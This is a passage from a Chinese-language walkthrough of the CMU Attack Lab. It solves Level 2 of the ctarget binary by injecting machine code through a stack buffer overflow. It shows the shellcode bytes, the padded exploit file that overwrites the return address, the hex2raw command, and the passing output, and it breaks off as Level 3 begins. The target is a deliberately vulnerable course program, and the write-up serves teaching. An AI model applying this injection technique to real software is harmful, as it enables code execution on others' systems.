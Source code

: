 这样就得到了对应的机器码：

```text
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
```

##### 2.4.5 ATTACK

构造用于注入的字符串：

1. 输入这段机器码（13 个字符），其起始地址就是缓冲区的起始地址；
2. 输入任意 27 个字符填满缓冲区的剩余部分；
3. 输入作为地址的 8 个字符导致溢出，溢出部分将返回地址修改为缓冲区的起始地址 `5561dc78`。

编辑输入文件 `exploit.txt`：

```text
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

在 `ctarget` 程序中输入该字符串：

```bash
cat exploit.txt | ./hex2raw | ./ctarget -q
```

输出信息：

```text
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

##### 2.4.6 运行结果

{{< image src="assets/level-2.webp" caption="Level 2 运行结果" >}}

### Level 3: Code Injection

#### 3.1 本关目标

执行函数 `touch3`，并传入表示 `cookie` 的值的字符串作为参数 `sval`。

#### 3.2 本关解答
